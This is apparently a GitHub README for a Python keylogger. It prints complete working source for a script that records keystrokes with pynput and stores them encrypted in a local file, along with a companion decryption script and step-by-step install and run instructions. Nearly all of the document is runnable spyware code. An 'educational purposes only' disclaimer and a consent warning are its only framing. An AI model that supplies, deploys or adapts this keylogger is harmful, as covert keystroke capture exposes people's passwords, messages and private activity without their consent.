 # Keylogger with encryption
## Purpose
The project is designed to better understand the techniques used by attackers and methods of defending against such threats. 
## Description
This project consist of two programs: one for logging key presses and another for decrypting the logged data. The programs are written in Python and use the `pynput` library to capture key presses and the `cryptography` library for encrypting and decrypting data.
# Code
## Keylogger Program (keylogger.py)
``` python 
from pynput import keyboard
import datetime
from cryptography.fernet import Fernet

# Generate encryption key
key = Fernet.generate_key()
cipher_suite = Fernet(key)

# Save key to file 
with open('key.key', 'wb') as f:
    f.write(key)

buffer = []

def on_press(key):
    global buffer 
    if key == keyboard.Key.space:
        # Create a log with the current time and buffer content, then encrypt it
        log = f'[{datetime.datetime.now().strftime('%Y-%m-%d, %H:%M:%S')}] {"".join(buffer)}\n'
        encrypted_logs = cipher_suite.encrypt(log.encode())
        with open('klogs.txt', 'ab') as f: # Opening the file in append binary mode
            f.write(encrypted_logs + b'\n')
        buffer = []
    else:
        try:
            if key.char.isalpha():  # Check if the pressed key is a letter
                buffer.append(key.char)
            else:
                buffer.append(str(key).replace("'", ""))
        except AttributeError:  # Ignore non-character keys like Shift, Ctrl.
           pass 
# Checking if the pressed key is esc if so stop listening key presses
def on_release(key):
    if key == keyboard.Key.esc:
        return False 
        
with keyboard.Listener(on_press=on_press, on_release=on_release) as Listener:
    Listener.join() # Start listening to key presses
```
### Explanation
1. `Imports`: 
Import necessary modules to keyboard events, handling dates and encrypted data.
2. `Encryption Key`:
Generate and save an encryption key for secure data storage.
3. `Buffer`:
A list to collect characters typed by the user.
4. `on_press Function`:
Handles key press events, appends characters to a buffer and writes encrypted logs to a file when the space bar is pressed.
5. `on_release Function`:
Stops listening for a key presses when the Esc key is pressed.
6.  `Listener`:
Initialazes and starts the keyboard listener to call the defined functions on key events.
## Log decryption Program (decryption.py)
``` python
from cryptography.fernet import Fernet
import sys 

with open('key.key', 'rb') as f:
    key = f.read()
    
cipher_suite = Fernet(key)

with open('klogs.txt', 'rb') as f:
    encrypted_logs = f.readlines()
    
decrypted_logs = ''
for log in encrypted_logs:
    decrypted_log = cipher_suite.decrypt(log.strip()).decode()
    decrypted_logs += decrypted_log + '\n'

with open('decrypted_logs.txt','w') as f:
   f.write(decrypted_logs)

print("Decryption complete.")
sys.exit(0)
```
## Requirements
- Python 3.x
- Libraries:
 `pynput`, `cryptography`
## Instalation
1. Clone the repository:
   ``` bash
   git clone https://github.com/hackbutnotme/Keylogger
   ```
2. Install the required libraries:
   ``` bash
   pip install pynput
   pip install cryptography
   ```
## Usage
1. Run the keylogger.py:
   ``` bash
   python keylogger.py
   
   # The program will run in the background, logging key presses.
    ```
2. After logging key presses and saving them to `klogs.txt`, run the fecryptor program:
    ``` bash
    python decryption.py

    # The decrypted logs will be saved to `decrytped_logs.txt`.
    ```
## WARNING
This project is intended for educational purposes only. Using such tools to monitor the activities of others without their consent is illegal and unethical. Please use this project responsibly.
